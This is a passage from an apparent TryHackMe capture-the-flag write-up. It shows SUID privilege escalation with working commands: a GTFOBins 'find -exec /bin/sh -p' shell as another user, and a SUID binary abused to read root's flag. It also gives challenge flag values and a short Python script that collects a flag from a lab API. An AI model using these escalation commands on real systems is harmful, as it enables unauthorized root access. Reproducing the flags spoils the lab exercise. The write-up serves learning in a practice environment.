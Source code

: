 In the output we see that `find` has the SUID bit set. Looking in [GTFOBins](https://gtfobins.github.io/gtfobins/find/), we can leverage this to get a shell as igor:

```#!/usr/bin/env bash
holly@ip-10-10-16-234:/home/igor$ /usr/bin/find . -exec /bin/sh -p \; -quit
$ id
uid=1001(holly) gid=1001(holly) euid=1002(igor) groups=1001(holly)
```

Notice that the effective user id (EUID) is now igor, so we are essentialy running as igor now.

```bash
$ cat flag1.txt
THM{d3f0708bdd9accda7f937d013eaf2cd8}
```

### 3 - Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?
From running the find command above we also notices that `system-control` had the SUID bit set. Running this command will let us run arbitrary commands as root:

```bash
holly@ip-10-10-16-234:/tmp$ ls -al /usr/bin/system-control
-rwsrwxr-x 1 root root 8880 Dec  7 21:17 /usr/bin/system-control
holly@ip-10-10-16-234:/tmp$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: cat /root/flag2.txt
THM{8c8211826239d849fa8d6df03749c3a2}
```

### 4 If you've finished the challenge and want more practise, checkout the Privilege Escalation Playground room created by SherlockSec: https://tryhackme.com/room/privescplayground
No answer needed.




## Task 14 -- [Day 9] Requests
### 1 - What is the value of the flag?
For this we can write a simple python script that gathers the flag:
```python
#!/usr/bin/python3

import requests

c = ''
next = []
value = []
url = 'http://10.10.169.100:3000/'

while 1:
    r_json = requests.get(url + c).json()
    c = r_json['next']
    if c == 'end':
        break
    value.append(r_json['value'])

print('Flag is ' + ''.join(value))
```

